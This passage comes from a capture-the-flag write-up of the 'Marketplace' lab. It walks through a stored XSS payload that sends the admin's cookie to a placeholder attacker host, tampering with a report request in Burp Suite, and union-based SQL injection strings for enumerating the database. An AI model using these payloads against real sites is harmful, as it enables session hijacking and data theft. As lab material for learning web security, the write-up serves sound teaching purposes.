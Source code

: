 #### Steal admin cookie

But if we check our listing page, we can see theres two option `Contact the listing author` and `Report listing to admins`, the latter is interesting because what if we can somehow manipulate xss and then report our listing to the admin so that we can steal his cookie and well yeah you guessed it login with that,so we craft an exploit  
reference:[Payload and explaination](https://infosecgirls.gitbook.io/infosecgirls-training/v/appsec/web-application-pentesting/a7-cross-site-scripting/advanced-xss-sending-data-to-remote-server) it explains well.<br>
`<script>document.location="http://YOURIP:8001/?"+document.cookie</script>`
then we spun up a `python3 -m http.server 8000` so that if we get a hit, we can get the cookie. You can create a new listing and paste the steal cookie payload to see if its working and you should get an hit to your python server
![testtoken](/assets/thm-marketplace/testtoken.png)
now we need to somehow report this listing to the admin and since were changing the path in our exploit we cant really do that in our browser, so burpsuite helps us in this. What we do is report a normal listing capture is through bursuite and change the report id to our listing id.
lets do that
![burp](/assets/thm-marketplace/burpsendreport.png)
when we hit and yess we get a hit
![python](/assets/thm-marketplace/tokenhit.png)
we can verify this from our jwt tool we mentioned earlier
![jwt](/assets/thm-marketplace/jwtadmin.png)
and suprisingly micheal with userid 2 is the admin, lets paste this token in the cookie to get the admin access

## Initial foothold

We get our first flag under /admin! Now if we check the users page we see that is a GET parameter `?user=1` and its pulling from the database so lets try SQL injection with our initial payload `' or 1=1 -- -` and we can see that it errored out so definitely something weird going on here
![sqli](/assets/thm-marketplace/sqli1.png)

whenever you an error, you must try different payload by starting to change something small to see what happens and work your way around it.
now if we remove the `'` we execute properly and see the result lets try UNION injection starting with UNION SELECT 1,2 and so on
![union](/assets/thm-marketplace/unionerror.png)
so finally UNION SELECT 1,2,3,4 results good
![noerror](/assets/thm-marketplace/union4.png)

our next step would be enumuering the database with the following payload, now here if we do it with a valid user id it doesnt show us anything so we gotta change the user id to something that doesnt exist.
Lets enumuerate the database

- get database<br>
  `admin?user=0 union select 1,database(),3,4 -- `: shows marketplace()<br>
- show tables in marketplace
